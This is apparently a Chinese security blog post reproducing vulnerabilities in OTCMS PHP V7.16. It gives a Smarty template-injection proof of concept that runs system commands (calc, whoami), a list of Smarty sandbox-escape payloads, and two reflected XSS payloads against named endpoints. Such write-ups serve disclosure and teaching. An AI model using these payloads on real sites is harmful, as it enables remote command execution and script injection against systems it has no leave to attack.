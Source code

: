 #  网太CMS漏洞复现   
 进击的HACK   2024-11-15 23:55  
  
# 版本：OTCMS_PHP_V7.16  
  
搭建：http://m.otcms.com/news/8388.html  
## 漏洞1：SSTI   
  
**理解SSTI：**SSTI（服务器端模板注入），SSTI和SQL注入原理差不多，都是因为对输入的字符串控制不足，把输入的字符串当成命令执行。  
  
**造成漏洞的主要成因：**render_template渲染函数在渲染的时候，对用户输入的变量不做渲染。  
  
**理解render_template渲染函数：**把HTML涉及的页面与用户数据分离开，这样方便展示和管理。当用户输入自己的数据信息，HTML页面可以根据用户自身的信息来展示页面。  
  
**SSTI漏洞原理：**服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题.  
  
**注意：**这种模板不只存在于 Python 中，凡是使用模板的地方都可能会出现SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtw1naSZia2Sf3y1XZNuiaTr1GaM857YOJqiaov4HZDlCK9ffVV7pf0gceJw/640?wx_fmt=png&from=appmsg "")  
  
**常见的模版**  
  
**php**  
  
<table><thead><tr><th style="line-height: 1.5em;letter-spacing: 0em;text-align: left;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);width: auto;height: auto;border-top-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;min-width: 85px;">Smarty</th><th style="line-height: 1.5em;letter-spacing: 0em;text-align: left;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);width: auto;height: auto;border-top-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;min-width: 85px;">很老的PHP模板引擎了，非常的经典，使用的比较广泛</th></tr></thead><tbody style="line-height: 1.5em;letter-spacing: 0em;border-width: 0px;border-style: initial;border-color: initial;"><tr style="background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(255, 255, 255);width: auto;height: auto;"><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">Twig</td><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">来自于Symfony的模板引擎，易于安装和使用</td></tr><tr style="background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(248, 248, 248);width: auto;height: auto;"><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">Blade</td><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">Laravel 提供的一个既简单又强大的模板引擎</td></tr></tbody></table>  
  
**Java**  
  
<table><thead><tr><th style="line-height: 1.5em;letter-spacing: 0em;text-align: left;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);width: auto;height: auto;border-top-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;min-width: 85px;">JSP</th><th style="line-height: 1.5em;letter-spacing: 0em;text-align: left;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);width: auto;height: auto;border-top-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;min-width: 85px;">经典</th></tr></thead><tbody style="line-height: 1.5em;letter-spacing: 0em;border-width: 0px;border-style: initial;border-color: initial;"><tr style="background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(255, 255, 255);width: auto;height: auto;"><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">FreeMarker</td><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">一种基于模板和要改变的数据，并用来生成输出文本。一个Java类库，是一款程序员可以嵌入他们所开发产品的组件</td></tr><tr style="background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(248, 248, 248);width: auto;height: auto;"><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">Velocity</td><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">不仅可以替代JSP作为JavaWeb的服务端网页模板引擎，还可以作为普通文本的模板引擎来增强服务端程序文本处理能力</td></tr></tbody></table>  
  
**python**  
  
<table><thead><tr><th style="line-height: 1.5em;letter-spacing: 0em;text-align: left;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);width: auto;height: auto;border-top-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;min-width: 85px;">Jinja2</th><th style="line-height: 1.5em;letter-spacing: 0em;text-align: left;background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(240, 240, 240);width: auto;height: auto;border-top-width: 1px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;min-width: 85px;">广泛</th></tr></thead><tbody style="line-height: 1.5em;letter-spacing: 0em;border-width: 0px;border-style: initial;border-color: initial;"><tr style="background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(255, 255, 255);width: auto;height: auto;"><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">django</td><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">使用别的就不能发挥出 django 的特性了django 以快速开发著称，但</td></tr><tr style="background: none 0% 0% / auto no-repeat scroll padding-box border-box rgb(248, 248, 248);width: auto;height: auto;"><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">tornado</td><td style="min-width: 85px;border-color: rgba(204, 204, 204, 0.4);border-radius: 0px;">tornado 强调的是异步非阻塞高并发</td></tr></tbody></table>  
### 漏洞分析  
  
功能点进行代码审计  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwiaiapto4K6VheA05PAnKN85kf6zzQEOjQia4VsoM3JPdh0C9a6iaSKoQibA/640?wx_fmt=png&from=appmsg "")  
  
  
抓包：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtw1naSZia2Sf3y1XZNuiaTr1GaM857YOJqiaov4HZDlCK9ffVV7pf0gceJw/640?wx_fmt=png&from=appmsg "")  
  
  
打码审计  
  
添加、修改文件处对函数$fileContent没有进行SSTI漏洞限制，主要是对{{}}没有进行过滤  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwDNxI51yUxNfcqZWBj1rnJRFedpP9a6NAAIMBzpXzW1RHztQibtMIxmg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwiatGvQC0BbSjOaTeoRmDsZn8HuWMw9IRRAIqQgAUpG7QhMKmZrzoCsg/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞复现  
  
验证是否存在SSTI漏洞  
  
1、查看使用模版引擎是Smarty  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwvXmwcSv4iajkFqyhQXDdo27WNUibQBYY3qx3tVXJ7iaicXYY7vqASSv9Hw/640?wx_fmt=png&from=appmsg "")  
  
  
2、登录后台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwO6Zl4Kvrq9aOJk7GZx0xoI2ZJM7AErx9JV0xKJxXORrgBhsd2xU0icQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwpxfCNoR7JJ74ZmoxiaOeVcib41ZOHLCG4VAHVL0WIxAkUb6SEpde3gJg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwGzibVzqJxybhoXuIj83j01tEkcsZuYfyrrxjagialwMJ8Xg8dz8Jzg2Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwHafoQshULM5lbfZicNurc2YIfkg1sSb2SKejzuEyfHu8Mn691wrIBicA/640?wx_fmt=png&from=appmsg "")  
  
  
修改内容为  
```
{otcms:1*2}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwDHeKl5xKy33wL8RK905q8S1LnTDjladqlqwT4amECiaXfHPKgLQuRKw/640?wx_fmt=png&from=appmsg "")  
  
  
注入的表达式已经执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwgu5tOfBFWSBgnTwGr3ictLUaGcsY6vySpSV0icPL2TRY5ACibdG031Viaw/640?wx_fmt=png&from=appmsg "")  
  
  
查看Smarty的版本  
```
{otcms:version}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwZL2fbmSFz8dzOtJnIbwakNucwbmm3TX3GCVW5oIR0H6V9vk2KmCZ0w/640?wx_fmt=png&from=appmsg "")  
  
  
**注入poc**  
  
**详见：CVE-2021-26119**  
```
{otcms:$smarty.template_object->smarty->_getSmartyObj()->display('string:{otcms:system(calc)}')}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwQqvZEficLibUa2pFliax1JO110BCZoRiaibp6EMZoibH8ichAJMd120IncHicA/640?wx_fmt=png&from=appmsg "")  
  
  
**常见poc**  
```
string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCompileDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCacheDir('./x')->display('string:{system(whoami)}')}

```  
## 漏洞二 ：xss漏洞   
### 在apiRun.php接口处存在xss漏洞  
  
定义变量  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwWArF71Dy3olhtd9UJvqc357cajAg5pllGaw9JahbpeDAAlTiafTjmTA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwKKTw7v3TmOuScWZuDuKGF9QJ6pKYxLZdfuuWtyZLAvaFMgRx3FHFDA/640?wx_fmt=png&from=appmsg "")  
  
  
**注入poc**  
```
apiRun.php?mode=";alert(1);//&mudi=autoRun
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwZIrOvHnfmMU5gEwlmUEqUVcIyBhYen9toibSfGRmFNKYVlcjNnq6zVw/640?wx_fmt=png&from=appmsg "")  
  
### 在inc\classAreaApp.php存在xss漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwd548OzXFJYfXyUnSISdzKKlcrBibmODzWIONxpTibSovaGffeX9ojyBQ/640?wx_fmt=png&from=appmsg "")  
  
  
**注入POC**  
```
http://www.otcms.com/wap/users/p.php?m=sendPhoneForm&dataID=7866&theme=1%22&_=1706170896361&type=%22%3E%3Cscript%3Ealert(1);%3C/script%3E

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7EOwrFI0GcKaa1No4RicNtwJ1koyWhrBoLfEruIZpGk3azegdcXBFmbM1XAYh5E31XWgUmhfJ0BXA/640?wx_fmt=png&from=appmsg "")  
  
  
参考文章：  
  
https://xz.aliyun.com/t/13432?time__1311=Gqmxu7G%3DH4lx0nD2DU2YoGC3D8Qn5fox#toc-7  
  
https://xz.aliyun.com/t/11108?time__1311=mqmx0DyDcDuGqq0vo4%2BxOD9WuKqDvN%2BQex&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F39303#toc-6  
  
  
